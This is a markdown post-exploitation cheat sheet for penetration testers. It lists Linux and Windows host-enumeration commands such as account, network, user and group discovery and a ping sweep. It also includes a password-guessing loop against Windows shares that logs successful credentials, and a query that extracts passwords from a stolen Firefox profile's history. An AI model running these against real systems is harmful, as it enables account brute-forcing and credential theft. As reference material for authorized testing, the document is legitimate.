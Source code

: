 ```yaml
---
title: Landing Commands
category: Post-Exploitation
order: 2
---
```


> **Linux**

Kernal version  | <code> uname -r </code>
Determine Account | <code> whoami </code>
Add User | <code> useradd -d [home_dir] [login name] </code>
Privilidges |<code>  id </code>
Network Activity | <code> netstat -natu </code>
ARP Cache | <code> arp -a </code>
Routing Table | <code> netstat -nr </code>
Lockout Policy | <code> grep tally /etc/pam.d/* <br> grep tally /etc/pam.conf" </code>
Find Public IP Address | <code> curl icanhazip.com <br> nslookup myip.opendns.com resolver1.opendns.com </code>

> **Windows**

Determine Account | <code> whoami, set username </code>
DNS Cache | <code> ipconfig /displaydns </code>
Arp Cache | <code> arp -a </code>
Network Activity | <code> netstat -na | find "ESTABLISHED" </code>
Processes | <code> tasklist </code>
Services | <code> sc query </code>
Inventory Software | <code> dir /s  c:\Program Files > inventory.txt <br> dir /s ""c:\Program Files (x86)"" >> inventory.txt <br> set path </code>
Routing Table | <code> netstat -nr  </code>
List Users | <code> net user <br> wmic useraccount list brief </code>
List Groups | <code> net localgroup </code> 
List Administrators | <code> net localgroup administrators </code> 
List Password and Lockout Policy | <code> net accounts or net accounts /domain </code> 
Ping Sweep | <code> for /L %i in (1, 1, 255) do @ping -n 1 192.168.2.%i | find "TTL" </code> 
DNS Lookup | <code> for /L %i in (1, 1, 255) do @echo 10.10.10.%i & nslookup 10.10.10.%i  2>nul | find "Name" </code> 
Password Guess | <code> for /f %i in (password.lst) do @echo %i & @net use \\[tartet_IP_addr] %i /u:[UserName] 2>nul && echo [UserName]: %i >> success.txt </code> 
Find Public IP Address | <code> curl icanhazip.com <br> nslookup myip.opendns.com resolver1.opendns.com </code>

> **Firefox**

Finding user browser history and passwords in history:
{% highlight bash %}
sqlite3 ~/pilfered-firefox-profile/gn2uzbr6.Default\ User/places.sqlite sqlite> select * from moz_places where url like "%@%";
{% endhighlight %}




